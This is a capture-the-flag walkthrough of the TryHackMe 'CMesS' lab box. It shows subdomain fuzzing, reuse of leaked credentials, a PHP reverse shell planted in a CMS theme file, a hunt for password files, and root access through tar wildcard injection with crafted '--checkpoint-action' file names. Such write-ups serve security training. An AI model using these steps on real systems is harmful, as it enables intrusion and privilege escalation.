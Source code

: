 # [CMesS](https://tryhackme.com/room/cmess)

## Can you root this Gila CMS box?

# Flags

## Please also note that this box does not require brute forcing!

### Compromise this machine and obtain user.txt

_Have you tried fuzzing for subdomains?_

1. Fuzz for subdomains to discover hidden services
   - Add the discovered `dev` to `/etc/hosts`

```bash
wfuzz -c -w /root/Tools/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -hw 290
```

> Use `--hh 290` to hide responses with the common HTML size of 290 bytes, which filters out invalid subdomains

![SCREEN01](https://github.com/user-attachments/assets/c19a8947-e046-4e4f-a222-506e31920a93)

![SCREEN02](https://github.com/user-attachments/assets/52284dde-4bd1-474b-ab8e-2e3fb5144c30)

2. In `http://dev.cmess.thm/`, we find a development log containing credentials
   - The credentials are `andre@cmess.thm:KPFTN_f2yxe%`

![SCREEN03](https://github.com/user-attachments/assets/b3b8f884-a360-49c8-b118-7046b90ac945)

3. Use the credentials to log in to `http://cmess.thm/admin`

4. To gain a shell on the target system, set up a netcat listener on our attacking machine

```bash
nc -lvnp 4444
```

5. Add [PHP Reverse Shell Payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) somwhere, for example in `http://cmess.thm/admin/fm?f=themes/gila-blog/footer.php`. Refresh the main page of the blog to get the shell

![SCREEN04](https://github.com/user-attachments/assets/83ec0ce3-67e8-4b55-9aca-f13981cfb37b)

![SCREEN05](https://github.com/user-attachments/assets/cfb615ee-ea5a-4307-9e09-6c3614fefdab)

6. Once the connection is established, upgrade the shell for better functionality

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

7. Search for password files that might help with lateral movement
   - The password is **UQfsdCB7aAP6**

```bash
find / -type f -name "*password*" 2>/dev/null
cat /opt/.password.bak
```

![SCREEN06](https://github.com/user-attachments/assets/b2175c38-d1a3-45f5-bd47-c8fcb32b21a9)

8. Switch to the `andre` user and retrieve the user flag

```bash
su andre
cat /home/andre/user.txt
```

![SCREEN07](https://github.com/user-attachments/assets/c8efcc94-c2ee-4dcc-b24d-d962fbf183f2)

---

# Escalate your privileges and obtain root.txt

1. Examine the home directory for clues. The note in `/home/andre/backup/note` provides valuable information. The note suggests there's a scheduled backup job running with elevated privileges

```bash
cat /home/andre/backup/note
```

![SCREEN08](https://github.com/user-attachments/assets/7b56e6cd-636b-472b-b466-aa4c9f71c2c7)

2. Check the system's scheduled tasks. There is a TAR wildcard vulnerability in a root cronjob that runs every 2 minutes. The job is backing up the `/home/andre/backup` directory using tar. Create an exploit that uses tar's checkpoint feature to execute arbitrary commands

```bash
cat /etc/crontab

echo 'cp /root/root.txt /home/andre/root.txt && chmod 777 /home/andre/root.txt' > /home/andre/backup/runme.sh
chmod +x /home/andre/backup/runme.sh
touch "/home/andre/backup/--checkpoint=1"
touch "/home/andre/backup/--checkpoint-action=exec=sh runme.sh"
```

![SCREEN09](https://github.com/user-attachments/assets/f7d74dd1-64f8-4213-881e-8a99b2dffd34)

3. Wait for the cron job to execute (within 2 minutes), then retrieve the root flag

```bash
ls /home/andre
cat /home/andre/root.txt
```

![SCREEN10](https://github.com/user-attachments/assets/7bd76bc5-c517-4540-bfd6-c406dbf0835c)
